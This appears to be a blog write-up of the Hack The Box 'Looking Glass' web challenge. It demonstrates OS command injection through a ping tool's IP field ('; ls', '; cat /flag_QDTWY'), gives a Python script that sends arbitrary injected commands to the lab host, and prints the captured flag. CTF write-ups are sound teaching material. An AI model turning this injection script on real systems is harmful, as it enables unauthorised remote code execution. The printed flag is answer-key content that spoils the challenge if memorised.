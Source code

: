 ```yaml
---
title: "HTB: Looking Glass"
last_modified_at: 2021-11-07T20:00:00+01:00
categories:
  - HTB
tags:
  - Easy-Challenge
  - Web
  - OWASP Top 10
---
```


# Quick summary

A simple start to the `OWASP Top 10 Task` on HTB.<br>
This challenge focuses on `RCE` (Remote Code Execution)

## Description

> We've built the most secure networking tool in the market, come and check it out!

# Enumeration
Visiting the website at `178.62.18.46:30815`:
![Visiting the website](/assets/htb/looking_glass/visiting_website.png)

Trying to catch the ping with `sudo tcpdump -i tun0 icmp` and running a ping against attacker box gets 100% packet loss.
![Testing ping](/assets/htb/looking_glass/ping_test.png)

It appears that whatever the IP is, there's always 100% packet loss.

## Analysis

Thinking of how this could be implemented on the server side, a common trap developers can fall into is doing something like:

```php
system("ping -c 4 " + $IP);
```

If it's possible to insert a `;` into the `$IP` variable, the attacker can run a seperate command after the `ping`.

```php
system("ping -c 4 172.62.18.46; ls)
```

Here, `ls` would be run as a seperate commands.<br>
Let's see if it works!

# Exploit

Let's try `; ls` at the end of the IP address.

![RCE in Ping](/assets/htb/looking_glass/rce_in_ping.png)

It's now confirmed that the site is vulnerable to `rce`.<br>
Let's try to find the flag!

Running `;ls -la /` to look at files at root level.<br>
There's a suspect file named `flag_QDTWY` and it's world-readable.<br>

![Flag location](/assets/htb/looking_glass/flag.png)

Running `;cat /flag_QDTWY` shows the content of the file.

![Showing flag](/assets/htb/looking_glass/cat_flag.png)

# Others writeups

On my journey of learning and understanding i found the blog:<br>
[ir0nstone](https://ir0nstone.gitbook.io/hackthebox/challenges/web/looking-glass){:target="_blank"}{:rel="noopener noreferrer"}

The author have a good `Automation` and `Checking the Source` sections that I want to try aswell.

## Automation
Python script (with some alterations):

```python
#!/usr/bin/python3

from requests import post

eplots = input('rce>> ')

data = { 'test': 'ping', 'ip_address': f'178.62.0.100; {eplots}', 'submit': 'Test' }
r = post('http://178.62.18.46:30815/', data=data)

res = r.text
res = res.split('packet loss\n')[-1]
res = res.split('</textarea>')[0]

print(res.strip())
```

Running the script with results:
```bash
# ./automation.py 
>> cat /flag_QDTWY
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Checking the Source
Injecting `;cat index.php` we can see whats happening:
![Checking the Source Code](/assets/htb/looking_glass/checking_the_source.png)

# Pwned confirmation
![Looking Glass Pwned](/assets/htb/looking_glass/looking_glass_pwned.png)